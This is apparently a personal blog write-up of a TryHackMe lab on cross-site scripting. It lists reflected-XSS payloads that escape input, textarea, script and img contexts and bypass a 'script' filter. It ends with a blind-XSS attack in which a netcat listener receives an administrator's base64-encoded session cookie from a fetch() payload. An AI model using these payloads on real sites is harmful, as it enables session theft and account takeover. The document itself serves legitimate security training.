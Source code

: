 ```yaml
---
layout: single
title: "THM Exploits #3 Cross-Site Scripting"
---
```

#### TryHackMe Room: Jr Penetration Tester path: Web Application Hacking: XSS (Cross-Site Scripting) 

### Perfecting your Payload 

#### Level 1: Payload in input form 

In the first exercise, we see an input form that prompts to enter our name. Doing that, we get an error message, 'XSS Payload Failed'.

![img]({{site.url}}/images/2023-09-23-twelfth/                                                      Screenshot%202023-09-22%20at%2018.40.37.png)


We can put in 

`<script>ale4rt('THM');</script>`
in the form: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.41.25.png)

Which will give us this pop-up.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.41.42.png)


Checking the page source, we can see the JavaScript code was successfully injected.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.46.35.png)

---
#### Level 2: Escaping input tag

This time, the form looks a bit different. Once inputting the name, it is reflected in the input tag. 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.47.20.png)

This can be confirmed by checking the page source.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.48.20.png)

The previous JS payload won't work in the input tag. Instead, we can use the following: 


">script>alert('THM');</script>


The `">` at the front will close the value parameter and then close the input tag. Closing the input tag will allow the payload to run.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.50.20.png)

The payload runs and we get the alert. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.51.46.png)

---
#### Level 3: Payload in textarea tag

At this stage, the name is reflected in the textarea tag. Again, this can be confirmed by viewing the page source.
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.54.23.png)

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.54.06.png)


We'll have to escape the textarea tag a little differently from level 2 by using the following payload: 


</textarea><script>alert('THM');</script>`


The `</textarea>` portion of the payload causes the textarea element to close so the script will run.
`
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.55.40.png)

Success!

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.56.21.png)

Check the page source to confim the changes.

---

#### Level 4: Escaping JS code

At this stage, the interface looks similar to level 1 but the page source reveals that the name is reflected in some JavaScript code. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2018.58.14.png)

You'll have to escape the existing JavaScript command with the following payload: 

`';alert('THM');//`

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

We get the alert, and the page source reveals our payload has been executed. 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.01.10.png)

---

#### Level 5: Escaping string filters

Level 5 looks similar to level 2 on the surface. However, executing  `<script>alert('THM');</script>` doesn't work. Let's look at the page source to figure out why.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.04.04.png)

The word 'script' has disappeared due to filters. Alternatively, we can use the following payload to escape these filters: 


<sscriptcript>alert('THM');</sscriptcript>


The word 'script' squeezed into the middle will be filtered out once, leaving the first 's' and the following 'script' to form and execute the payload. 

The resulting page source shows it worked: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.06.25.png)

---

#### Level 6: Escaping IMG tag
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.07.24.png)

Level 6 seems similar to level 2, where we had to escape from the value attribute of an input tag, so we can try `"><script>alert('THM');</script>` .
But that doesn't seem to work. Let's inspect the page source to see why. 
 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.10.27.png)

You can see that the `<` and `>` characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the ==**onload event**==. The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

Let's change our payload to reflect this:

```JavaScript
/images/cat.jpg" onload="alert('THM')
```

And then viewing the page source, and you'll see how this will work.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.13.53.png)
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-22%20at%2019.14.10.png)


---

#### All payloads from exercises

Original payload
<script>alert('THM');</script>

Escaping input tag
"><script>alert('THM');</script>

Escaping textarea tag
</textarea><script>alert('THM');</script> 

Escaping JS code
';alert('THM');//

Escaping filters
<sscriptcript>alert('THM');</sscriptcript>

Escaping img tag & using onload event
/images/cat.jpg" onload="alert('THM');

---

### Practical Example (Blind XSS) 

In this exercise, we are tasked to inject JavaScript code into the contents of an IT Support ticket. Once the administrator opens the ticket to view it, the code will execute and send their cookie session info back to us, revealing login information and allowing us to escalate privileges.

**1. Test stage**
So we've made a (fake) customer account on the Acme IT Support website. Under the 'Support Tickets' tab, we can create tickets. Here is a test run: 

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.32.47.png)

Because our input is shown in the textarea, let's see if we can escape this like we did in level 3 of 'Perfecting Your Payload'. We can use the payload `</textarea>test`. </textarea> wil help us escape the textarea tag. 
 
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.32.30.png)

It worked. 
Now let's try this again to prompt an alert message. The payload is `</textarea><script>alert('THM');</script>.
`
![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.35.17.png)


**2. The Attack** 

Now, let's try to steal the administrator's session cookies by injecting JavaScript code.
First, we're going to set up a callback. Let's open a Netcat server listening on port 9001 to receive the cookies. 

If we want to listen on port 8000, issue the command`nc -l -p 9001`.
- `-l`  indicates that we want to use Netcat in listen mode
- `-p`  is used to specify the port number.
- `-n` to avoid the resolution of hostnames via DNS,
- moreover, to discover any errors, running Netcat in verbose mode by adding the `-v` option is recommended.
- The final command becomes `nc -n -l -v -p 9001`, equivalent to `nc -nlvp 9001`.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.35.53.png)![]

Now, let's inject our payload into the ticket. The payload we'll use is: 

```Javascript
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`
```

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.


![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2016.00.31.png)


Once submitted, the listening server will put out the stolen cookies. Shown below is that output and the base64 decoding of the cookie using the echo command.

![img]({{site.url}}/images/2023-09-23-twelfth/Screenshot%202023-09-23%20at%2015.58.21.png)

---